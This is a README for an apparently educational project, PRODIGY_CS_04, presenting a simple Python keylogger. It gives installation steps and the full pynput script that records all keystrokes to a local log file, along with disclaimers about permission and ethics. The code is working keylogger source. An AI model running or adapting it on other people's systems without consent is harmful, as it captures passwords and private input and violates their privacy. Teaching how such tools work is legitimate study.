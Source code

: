 # PRODIGY_CS_04
# Simple Keylogger

## Description

This project is a basic keylogger that records and logs keystrokes. It focuses on capturing and saving key presses to a file. The keylogger is implemented in Python using the `pynput` library. 

**Note:** Ethical considerations and explicit permissions are crucial when using keyloggers. This tool is intended for educational purposes only.

## Features

- Captures all key presses.
- Logs special keys in a readable format (e.g., space, enter, tab).
- Saves keystrokes to a file (`key_log.txt`).

## Requirements

- Python 3.x
- `pynput` library

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/raby02/PRODIGY_CS_04.git
   ```
2. **Navigate to the Project Directory:**

   ```bash
   cd PRODIGY_CS_04
   ```
3. **Install Required Packages:**
   Ensure you have pynput installed. You can install it using pip:
    ```bash
   pip install pynput
   ```

## Usage

### Run the Keylogger Script

To start the keylogger, run the following command in your terminal:

```bash
python simple_keylogger.py
```

## Code Explanation

The provided script listens for key presses and logs them to a file. Below is an overview of how the code functions:

```python
from pynput.keyboard import Listener

# Define the file where keystrokes will be saved
log_file = "key_log.txt"

# Function to format and write key logs
def on_press(key):
    try:
        # Convert key to string
        key_str = str(key).replace("'", "")
        
        # Log special keys in a readable format
        if key_str == 'Key.space':
            key_str = ' [SPACE] '
        elif key_str == 'Key.enter':
            key_str = ' [ENTER]\n'
        elif key_str == 'Key.tab':
            key_str = ' [TAB] '
        elif key_str == 'Key.backspace':
            key_str = ' [BACKSPACE] '
        elif 'Key' in key_str:
            key_str = f' [{key_str.replace("Key.", "").upper()}] '

        # Write to the log file
        with open(log_file, 'a') as file:
            file.write(key_str)
    
    except Exception as e:
        print(f"Error: {e}")

# Start listening for key presses
with Listener(on_press=on_press) as listener:
    listener.join()
```

## Ethical Considerations

- **Permissions**: Always obtain explicit permission before running keyloggers on any system. Unauthorized use of keyloggers is illegal and unethical.
- **Usage**: Use this tool responsibly and only for educational purposes or with the consent of all parties involved. Misuse of keyloggers can lead to legal consequences and privacy violations.





